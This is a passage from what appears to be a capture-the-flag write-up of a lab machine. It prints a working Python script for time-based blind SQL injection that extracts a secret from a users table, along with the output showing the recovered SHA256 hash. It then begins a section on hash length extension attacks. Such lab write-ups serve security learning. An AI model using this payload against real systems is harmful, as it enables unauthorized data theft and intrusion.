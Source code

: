 ```python
#!/usr/bin/python3

import requests
import time

charset = 'abcdef0123456789'

pwd = ''
i = 1

while (True):
    for c in charset:
        data = {
            'message':"'||(select case when substr((select secret from users),%d,1)='%s' then zeroblob(999999999) else 0 end))--" % (i,c)
        }

        before = time.time()
        r = requests.post('http://10.10.10.195/submitmessage', data=data)
        after = time.time()
        delta = after - before
        if delta > 0.800:
            pwd = pwd + c
            print("Password: %s" % pwd)
            i = i + 1
            break
```

Running the time based SQLi script...

```
$ python3 sqli.py 
Password: f
Password: f1
Password: f1f
Password: f1fc
[...]
Password: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c29711
Password: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c297110
Password: f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105
```

Unfortunately the SHA256 hash `f1fc12010c094016def791e1435ddfdcaeccf8250e36630c0bc93285c2971105` can't be cracked with rockyou.txt so we'll need to keep looking for other ways to exploit the web application.

## Hash length extension attack

Looking at the application source code again, we find a subtle but critical vulnerability that will allow us to forge valid signatures. The hash algorithm used is SHA256 and is vulnerable to hash length extension attacks (MD5 and SHA1 are also vulnerable to these types of attacks). The highlighted part below shows where the vulnerability is:
